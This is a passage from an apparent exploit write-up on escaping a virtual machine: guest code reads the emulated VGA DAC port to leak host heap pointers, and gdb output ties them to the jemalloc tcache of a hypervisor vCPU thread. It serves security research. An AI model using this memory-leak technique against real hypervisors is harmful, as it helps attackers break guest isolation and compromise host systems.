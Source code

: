         outb(0, DAC_IDX_RD_PORT);
        for (int i = 0; i < chunk_lw_size; i++) {
                chunk_lw[i] = inb(DAC_DATA_PORT);
        }

        for (int index = 0; index < chunk_lw_size/8; index++) {
                qword = ((uint64_t *)chunk_lw)[index];
                if (qword > 0) {
                        warnx("[%06d] => 0x%lx", index, qword);
                }
        }
. . .

Running the code in the guest leaks a bunch of heap pointers as below:

root@linuxguest:~/setupA/readmemory# ./readmemory
. . .
readmemory: [128483] => 0x801b6f000
readmemory: [128484] => 0x801b6f000
readmemory: [128486] => 0xe4000000b5
readmemory: [128489] => 0x100000000
readmemory: [128491] => 0x801b6fb88
readmemory: [128493] => 0x100000000
readmemory: [128495] => 0x801b701c8
readmemory: [128497] => 0x100000000
readmemory: [128499] => 0x801b70808
readmemory: [128501] => 0x100000000
readmemory: [128503] => 0x801b70e48
. . .

After some analysis, it is realized that this is tcache_s structure used by
jemalloc. Inspecting the memory with gdb provides further details:

(gdb) info threads 
  Id   Target Id         Frame 
* 1    LWP 100185 of process 4891 "mevent" 0x000000080121198a in _kevent ()
* from /lib/libc.so.7
. . .
  12   LWP 100198 of process 4891 "vcpu 0" 0x00000008012297da in ioctl ()
from /lib/libc.so.7

(gdb) thread 12
[Switching to thread 12 (LWP 100198 of process 4891)]
#0  0x00000008012297da in ioctl () from /lib/libc.so.7

(gdb) print *((struct tsd_s *)($fs_base-160))
$21 = {state = tsd_state_nominal, tcache = 0x801b6f000, thread_allocated =
2720, thread_deallocated = 2464, prof_tdata = 0x0, iarena = 0x801912540,
arena = 0x801912540, 
  arenas_tdata = 0x801a1b040, narenas_tdata = 8, arenas_tdata_bypass =
false, tcache_enabled = tcache_enabled_true, __je_quarantine = 0x0,
witnesses = {qlh_first = 0x0}, 
  witness_fork = false}

For any thread, the thread-specific data is located at an address pointed
by $fs_base-160. The tcache address can be found by inspecting 'tsd_s'
structure. The 'vcpu 0' thread's tcache structure is the one that the guest
could access using the VGA bug. This can be confirmed by gdb:
